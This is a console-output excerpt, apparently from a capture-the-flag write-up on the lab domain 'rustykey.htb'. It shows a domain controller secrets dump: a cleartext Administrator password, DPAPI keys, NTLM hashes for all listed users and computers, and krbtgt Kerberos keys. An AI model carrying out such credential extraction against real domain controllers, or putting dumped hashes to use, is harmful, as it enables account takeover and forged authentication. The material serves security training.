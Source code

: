 ```console
RUSTYKEY\DC$:plain_password_hex:0c7fbe96b20b5afd1da58a1d71a2dbd6ac75b42a93de3c18e4b7d448316ca40c74268fb0d2281f46aef4eba9cd553bbef21896b316407ae45ef212b185b299536547a7bd796da250124a6bb3064ae48ad3a3a74bc5f4d8fbfb77503eea0025b3194af0e290b16c0b52ca4fecbf9cfae6a60b24a4433c16b9b6786a9d212c7aaefefa417fe33cc7f4dcbe354af5ce95f407220bada9b4d841a3aa7c6231de9a9ca46a0621040dc384043e19800093303e1485021289d8719dd426d164e90ee3db3914e3d378cc9e80560f20dcb64b488aa468c1b71c2bac3addb4a4d55231d667ca4ba2ad36640985d9b18128f7755b25
RUSTYKEY\DC$:aad3b435b51404eeaad3b435b51404ee:b266231227e43be890e63468ab168790:::
[*] DefaultPassword
RUSTYKEY\Administrator:Rustyrc4key#!
[*] DPAPI_SYSTEM
dpapi_machinekey:0x3c06efaf194382750e12c00cd141d275522d8397
dpapi_userkey:0xb833c05f4c4824a112f04f2761df11fefc578f5c
[*] NL$KM
 0000   6A 34 14 2E FC 1A C2 54  64 E3 4C F1 A7 13 5F 34   j4.....Td.L..._4
 0010   79 98 16 81 90 47 A1 F0  8B FC 47 78 8C 7B 76 B6   y....G....Gx.{v.
 0020   C0 E4 94 9D 1E 15 A6 A9  70 2C 13 66 D7 23 A1 0B   ........p,.f.#..
 0030   F1 11 79 34 C1 8F 00 15  7B DF 6F C7 C3 B4 FC FE   ..y4....{.o.....
NL$KM:6a34142efc1ac25464e34cf1a7135f34799816819047a1f08bfc47788c7b76b6c0e4949d1e15a6a9702c1366d723a10bf1117934c18f00157bdf6fc7c3b4fcfe
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f7a351e12f70cc177a1d5bd11b28ac26:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f4ad30fa8d8f2cfa198edd4301e5b0f3:::
rustykey.htb\rr.parker:1137:aad3b435b51404eeaad3b435b51404ee:d0c72d839ef72c7d7a2dae53f7948787:::
rustykey.htb\mm.turner:1138:aad3b435b51404eeaad3b435b51404ee:7a35add369462886f2b1f380ccec8bca:::
rustykey.htb\bb.morgan:1139:aad3b435b51404eeaad3b435b51404ee:44c72edbf1d64dc2ec4d6d8bc24160fc:::
rustykey.htb\gg.anderson:1140:aad3b435b51404eeaad3b435b51404ee:93290d859744f8d07db06d5c7d1d4e41:::
rustykey.htb\dd.ali:1143:aad3b435b51404eeaad3b435b51404ee:20e03a55dcf0947c174241c0074e972e:::
rustykey.htb\ee.reed:1145:aad3b435b51404eeaad3b435b51404ee:4dee0d4ff7717c630559e3c3c3025bbf:::
rustykey.htb\nn.marcos:1146:aad3b435b51404eeaad3b435b51404ee:33aa36a7ec02db5f2ec5917ee544c3fa:::
rustykey.htb\backupadmin:3601:aad3b435b51404eeaad3b435b51404ee:34ed39bc39d86932b1576f23e66e3451:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:b266231227e43be890e63468ab168790:::
Support-Computer1$:1103:aad3b435b51404eeaad3b435b51404ee:5014a29553f70626eb1d1d3bff3b79e2:::
Support-Computer2$:1104:aad3b435b51404eeaad3b435b51404ee:613ce90991aaeb5187ea198c629bbf32:::
Support-Computer3$:1105:aad3b435b51404eeaad3b435b51404ee:43c00d56ff9545109c016bbfcbd32bee:::
Support-Computer4$:1106:aad3b435b51404eeaad3b435b51404ee:c52b0a68cb4e24e088164e2e5cf2b98a:::
Support-Computer5$:1107:aad3b435b51404eeaad3b435b51404ee:2f312c564ecde3769f981c5d5b32790a:::
Finance-Computer1$:1118:aad3b435b51404eeaad3b435b51404ee:d6a32714fa6c8b5e3ec89d4002adb495:::
Finance-Computer2$:1119:aad3b435b51404eeaad3b435b51404ee:49c0d9e13319c1cb199bc274ee14b04c:::
Finance-Computer3$:1120:aad3b435b51404eeaad3b435b51404ee:65f129254bea10ac4be71e453f6cabca:::
Finance-Computer4$:1121:aad3b435b51404eeaad3b435b51404ee:ace1db31d6aeb97059bf3efb410df72f:::
Finance-Computer5$:1122:aad3b435b51404eeaad3b435b51404ee:b53f4333805f80406b4513e60ef83457:::
IT-Computer1$:1123:aad3b435b51404eeaad3b435b51404ee:fe60afe8d9826130f0e06cd2958a8a61:::
IT-Computer2$:1124:aad3b435b51404eeaad3b435b51404ee:73d844e19c8df244c812d4be1ebcff80:::
IT-Computer3$:1125:aad3b435b51404eeaad3b435b51404ee:b52b582f02f8c0cd6320cd5eab36d9c6:::
IT-Computer4$:1126:aad3b435b51404eeaad3b435b51404ee:763f9ea340ccd5571c1ffabf88cac686:::
IT-Computer5$:1127:aad3b435b51404eeaad3b435b51404ee:1679431d1c52638688b4f1321da14045:::
[*] Kerberos keys grabbed
Administrator:des-cbc-md5:e007705d897310cd
krbtgt:aes256-cts-hmac-sha1-96:ee3271eb3f7047d423c8eeaf1bd84f4593f1f03ac999a3d7f3490921953d542a
krbtgt:aes128-cts-hmac-sha1-96:24465a36c2086d6d85df701553a428af
krbtgt:des-cbc-md5:d6d062fd1fd32a64
rustykey.htb\rr.parker:des-cbc-md5:8c5b3b54b9688aa1
rustykey.htb\mm.turner:aes256-cts-hmac-sha1-96:707ba49ed61c6575bfe9a3fd1541fc008e8803bfb0d7b5d21122cc464f39cbb9
rustykey.htb\mm.turner:aes128-cts-hmac-sha1-96:a252d2716a0b365649eaec02f84f12c8
rustykey.htb\mm.turner:des-cbc-md5:a46ea77c13854945
rustykey.htb\bb.morgan:des-cbc-md5:d6ef5e57a2abb93b
rustykey.htb\gg.anderson:des-cbc-md5:8923850da84f2c0d
rustykey.htb\dd.ali:des-cbc-md5:613da45e3bef34a7
rustykey.htb\ee.reed:des-cbc-md5:2fc46d9b898a4a29
```